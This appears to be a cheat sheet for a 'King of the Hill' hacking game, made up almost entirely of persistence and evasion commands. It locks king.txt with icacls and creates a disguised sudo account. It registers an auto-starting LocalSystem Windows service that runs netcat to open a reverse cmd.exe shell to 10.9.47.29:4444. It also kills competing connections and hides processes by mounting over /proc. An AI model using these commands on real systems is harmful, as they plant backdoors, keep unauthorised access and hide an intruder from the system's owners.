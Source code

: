 #################################################################
## Prevent from writing to king.txt (Write: Modify: Execute: Delete)
	(F): Full control (equivalent to (M)+(W)+(E)+(D))
	(M): Modify (read, write, execute, and delete)
	(R): Read
	(W): Write
	(X): Execute
	(D): Delete
	- icacls king.txt /deny Everyone:(W)
	- icacls king.txt /deny Administrator:(F)

	- ## Removing the above
	- icacls king.txt /remove Everyone:(W)
	- icacls king.txt /remove Everyone:(M)
	- icacls king.txt /remove Administrator:(F)
    - icacls king.txt /remove Administrator:(M)

	- ## Granting Access to the above
	- icacls king.txt /grant Everyone:(W)
    - icacls king.txt /grant Administrator:(M)


#################################################################
## Creating Local Account with Root Privs
```bash
#LINUX
adduser --shell /bin/bash --home /var/ww/ nginxx  
usermod -aG sudo nginxx
```

#################################################################
## Creating a malicious service 
	sc create fsociety binpath= "C:\nc.exe 10.9.47.29 4444 -e cmd.exe" start= "auto" obj= "LocalSystem" password= ""


#################################################################
## Finding network connections and kill the process
```bash
netstat -ano | findstr :port
taskkill /pid 3208 /F
netstat -ltnup
pkill pid
kill -9 pid

## Hiding PID | PTS 
```bash
netstat -ltnup
mount -o bind /tmp /proc/PID
mount -o remount,rw,nosuid,nodev,noexec,relatime,hidepid=2 /proc
vi /etc/fstab
	- proc    /proc    proc    defaults,nosuid,nodev,noexec,relatime,hidepid=2     0     0
```
